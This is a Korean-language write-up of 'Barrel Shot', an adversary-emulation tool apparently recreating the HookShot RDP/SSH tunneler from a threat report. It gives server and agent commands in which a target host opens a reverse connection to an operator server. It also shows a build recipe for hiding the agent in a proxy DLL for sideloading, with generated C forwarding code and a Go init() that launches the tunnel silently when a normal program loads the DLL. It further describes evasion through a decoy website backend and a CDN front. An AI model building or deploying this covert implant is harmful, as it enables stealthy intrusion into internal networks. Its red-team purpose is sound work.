

# 6. Barrel-Shot

## HookShot - Barrel Shot

### 코드

[https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-shot](https://github.com/ChoiSG/Operation-Triple-Barrel/tree/main/barrel-shot)

### 데모

<figure><figcaption></figcaption></figure>

### 개요

HookShot은 오퍼레이션 더블 배럴 보고서 13\~14, 35페이지에 등장하는 RDP/SSH 터널링 도구다. 내부 네트워크의 RDP, SSH 등의 서비스에 외부에서 접근하기 위한 도구로, Chisel이나 Ligolo-ng과 비슷한 역할을 한다. 보고서 35페이지에서 DLL Sideloading으로 실행했다고 기술되어 있는데, 이 점을 반영해 처음부터 DLL Sideloading이 가능하도록 만들었다.

AI를 활용해 만들다보니, 사실상 코드 베이스는 chisel과 ligolo-ng의 것을 가져다 사용했다고 봐도 무방하다.

Go로 작성했고, SSH-over-WebSocket 구조를 사용한다.

### 구조

```
  오퍼레이터                                 타겟 네트워크
  +-------------------+                   +-------------------+
  |  barrel-shot      |                   |  barrel-shot      |
  |  server           |<--[WSS/SSH]-------+  agent            |
  |                   |                   |                   |
  |  - HTTPS listener |                   |  - reverse conn   |
  |  - tunnel binder  |                   |  - SOCKS5 proxy   |
  |                   |                   |  - reconnect loop |
  +-------------------+                   +-------------------+
        |                                       |
        v                                       v
   RDP client                             target:3389 (RDP)
   SSH client                             target:22   (SSH)
   proxychains                            target:*    (SOCKS5)
```

에이전트가 타겟 호스트에서 오퍼레이터 서버로 WebSocket 연결을 맺고, 그 안에서 SSH 세션을 만든다. SSH가 암호화와 멀티플렉싱을 다 해주기 때문에 별도의 커스텀 암호화가 필요 없다. 오퍼레이터 쪽에서는 로컬 포트가 열리고, 해당 포트에 RDP/SSH 클라이언트를 연결하면 트래픽이 SSH 채널을 타고 타겟 네트워크 안으로 들어간다.

```bash
# 서버 (오퍼레이터)
barrel-shot server -l 0.0.0.0:8443 --auth op:s3cret

# 에이전트 (타겟) — RDP + SSH + SOCKS5 터널
barrel-shot agent --tls-skip-verify --auth op:s3cret https://operator:8443 R:socks
```

### DLL Sideloading

보고서에서 HookShot이 DLL Sideloading으로 실행됐다고 명시되어 있어서, 빌드 파이프라인에 이를 포함시켰다.

Barrel Shot의 DLL 빌드는 프록시 DLL 패턴을 사용한다. 타겟 DLL(예: `version.dll`)의 PE export table을 파싱해서, 모든 export 함수를 System32의 원본 DLL로 포워딩하는 C 코드를 자동 생성한다. 이 프록시 코드와 Barrel Shot 에이전트를 함께 컴파일하면, 정상 프로그램이 해당 DLL을 로드할 때 원래 기능은 그대로 동작하면서 에이전트가 백그라운드에서 실행된다.

```bash
make dll \
  PROXY=./version.dll \
  SERVER=https://operator.com:443 \
  AUTH=op:s3cret \
  REMOTES=R:13389:10.10.5.50:3389,R:socks \
  TLS_SKIP=1
```

프록시 생성 도구인 `proxygen`이 DLL의 export table을 읽어서 포워딩 코드를 만든다.

```c
// proxygen이 자동 생성하는 코드 (version.dll 기준)
static void proxy_init(void) {
    if (proxy_dll) return;
    WCHAR path[260];
    GetSystemDirectoryW(path, 260);
    lstrcatW(path, L"\\version.dll");
    proxy_dll = LoadLibraryW(path);
    if (!proxy_dll) return;
    proxy_fn[0] = GetProcAddress(proxy_dll, "GetFileVersionInfoA");
    proxy_fn[1] = GetProcAddress(proxy_dll, "GetFileVersionInfoW");
    // ...
}

__declspec(dllexport) void * GetFileVersionInfoA(...) {
    proxy_init();
    ProxyFn f = (ProxyFn)proxy_fn[0];
    return f ? f(a1,a2,a3,...) : 0;
}
```

DLL이 로드되면 Go 런타임의 `init()`에서 임베디드 설정을 확인하고, 설정이 있으면 별도의 goroutine에서 에이전트를 시작한다. 호스트 프로세스 입장에서는 정상적으로 `GetFileVersionInfoA` 같은 함수를 호출하고 있고, 뒤에서는 터널이 열리는 것이다.

```go
// exports.go — DLL 로드 시 자동 실행
func init() {
    if HasEmbeddedConfig() {
        go RunDLL()
    }
}
```

`version.dll` 외에도 `winmm.dll`, `dbghelp.dll` 등 아무 DLL이나 사용 가능하다. `proxygen`이 PE export table을 직접 파싱하기 때문에 함수 목록을 하드코딩할 필요가 없다.

### 임베디드 설정

에이전트 설정(서버 주소, 인증 정보, 터널 정의)은 빌드 타임에 Go의 `-ldflags -X`로 바이너리에 박아넣는다.

```go
// embed.go — 빌드 타임에 설정되는 변수들
var (
    embeddedServer      string  // -X 'barrel-shot/agent.embeddedServer=wss://...'
    embeddedAuth        string
    embeddedRemotes     string
    embeddedTLSSkip     string
)
```

설정이 임베디드되어 있으면 인자 없이 실행해도 바로 연결된다. DLL Sideloading 시나리오에서는 CLI 인자를 넘길 방법이 없기 때문에 필수적인 기능이다.

### 그 외

* **Reconnect**: 연결이 끊기면 exponential backoff + jitter (1초\~5분)로 재접속한다
* **SOCKS5**: `R:socks` 터널을 정의하면 에이전트 측에 SOCKS5 프록시가 열려, `proxychains`를 통해 내부 네트워크 어디든 접근 가능하다
* **Backend proxy**: 서버의 `--backend` 옵션으로 비에이전트 HTTP 요청을 정상 웹서버로 리버스 프록시할 수 있다. 누군가 서버 URL에 브라우저로 접속하면 정상 웹사이트가 보인다
* **TLS**: 인증서가 없으면 self-signed를 자동 생성한다. 실제 오퍼레이션에서는 CDN 뒤에 놓기 때문에 CDN이 TLS termination을 해준다
